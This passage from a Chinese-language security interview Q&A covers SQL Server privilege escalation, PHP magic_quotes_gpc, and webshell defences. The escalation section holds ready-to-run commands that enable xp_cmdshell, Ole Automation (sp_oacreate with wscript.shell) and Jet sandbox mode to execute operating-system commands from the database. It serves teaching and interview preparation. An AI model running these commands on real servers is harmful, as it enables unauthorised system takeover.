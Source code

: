 ### 48. SQLserver提权

**xp_cmdshell提权**

> 1. xp_cmdshell提权
>    + xp_cmdshell是SQL server 中的一个组件，可以用来执行系统命令，在拿到sa口令之后，经常可以通过xp_cmdshell提权。
> 2. 前提
>    + getshell或者存在SQL注入并且能够执行命令
>    + SQL server是system权限，SQL server默认就是system权限
> 3. 启用xp_cmdshell
>    + EXEC master..sp_configure 'show advanced options',1;RECONFIGURE;EXEC master..sp_configure 'xp_cmdshell',1;RECONFIGURE;
> 4. 通过xp_cmdshell执行系统命令
>    + Exec master.dbo.xp_cmdshell 'whoami'

**sp_oacreate提权**

> 在xp_cmdshell被删除或者出错情况下，可以充分利用SP_OACreate进行提权
>
> 前提：
>
> + 需要同时具备sp_oacreate和sp_oamethod两个功能组件；
>
> 开启组件
>
> + EXEC sp_configure 'show advanced options', 1;RECONFIGURE WITH OVERRIDE;EXEC sp_configure 'Ole Automation Procedures', 1;RECONFIGURE WITH OVERRIDE; EXEC sp_configure 'show advanced options', 0;
>
> 执行系统命令（无回显）
>
> + declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami'

**通过沙盒执行命令**

> 开启沙盒
>
> + exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxM
>   ode','REG_DWORD',1
>
> 利用jet.oledb执行命令
>
> + select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32 \ias\dnary.mdb','select shell("whoami")')

### 49. GPC是什么？GPC之后怎么绕过？

> 如果`magic_quotes_gpc=On`，PHP解析器就会自动为post、get、cookie过来的数据增加转义字符“\”，以确保这些数据不会引起程序，特别是数据库语句因为特殊字符（认为是php的字符）引起的污染。

### 50. 如何防范webshell

> 1. 将专门存放上传文件的文件夹里面的脚本类型文件，解析成其他类型的文件，服务器不会以脚本类型来执行它。
> 2. 匹配文件夹里的脚本类型文件，将其设置为无法读取及操作。
> 3. 将文件上传到一个单独的文件夹，给一个二级的域名，然后不给这个虚拟站点解析脚本的权限，听说很多网站都用这种方式。
